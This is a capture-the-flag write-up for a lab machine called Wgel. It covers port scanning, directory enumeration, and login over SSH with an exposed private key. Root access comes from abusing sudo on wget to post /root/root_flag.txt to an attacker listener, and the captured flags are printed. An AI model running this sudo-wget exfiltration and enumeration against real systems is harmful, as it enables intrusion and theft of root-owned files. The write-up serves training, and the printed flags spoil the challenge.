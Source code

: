 # WGEL
----
### Port Scanning
```sh
└─$ sudo nmap -sS -sV -O -oA exploit wgel >> ports.txt
                                                                                                                                                                        
└─$ cat ports.txt                                     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-03 18:02 EDT
Nmap scan report for wgel (10.10.202.12)
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))


└─$ sudo nmap -A -p 22,80 wgel >> aggresive.txt

- Nothing Important

```

### Directory Enumeration
```sh
└─$ gobuster dir -u http://wgel -w /usr/share/wordlists/dirb/common.txt -o directory.txt

/.hta                 (Status: 403) [Size: 269]
/.htaccess            (Status: 403) [Size: 269]
/.htpasswd            (Status: 403) [Size: 269]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 269]
/sitemap              (Status: 301) [Size: 298] [--> http://wgel/sitemap/]

└─$ gobuster dir -u http://wgel/sitemap/ -w /usr/share/wordlists/dirb/common.txt -o directory.txt
/.ssh                 (Status: 301) [Size: 303] [--> http://wgel/sitemap/.ssh/]


```

### Post Directory Enum
- [This is a website Link](http://10.10.202.12/sitemap/)
- We can find that there is a website here
- If we go to (http://wgel/sitemap/.ssh/) we can find a id_rsa Encrypting key by this we can get into the ssh

![alt text](image.png)

![alt text](image-1.png)
- `Jessie` is our target name for ssh login


### SSH login
```sh
jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6

```

> ## user.txt : `057c67131c3d5e42dd5cd3075b198ff6`

## Privilege Escalation
```sh
jessie@CorpOne:~/Documents$ id
uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget


```

- [MyCheatSheet](https://github.com/Ruhanyat-994/myCTF/blob/master/THM-CTF/TIPS/CTF-cheatSheet.md)

```sh
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.78.135:4444
--2024-08-04 01:32:45--  http://10.17.78.135:4444/
Connecting to 10.17.78.135:4444... connected.
HTTP request sent, awaiting response... 


```
```sh
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.17.78.135] from (UNKNOWN) [10.10.202.12] 42412
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.17.78.135:4444
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d

```

> ## root.txt: `b1b968b37519ad1daa6408188649263d`

----

# PWNED!!!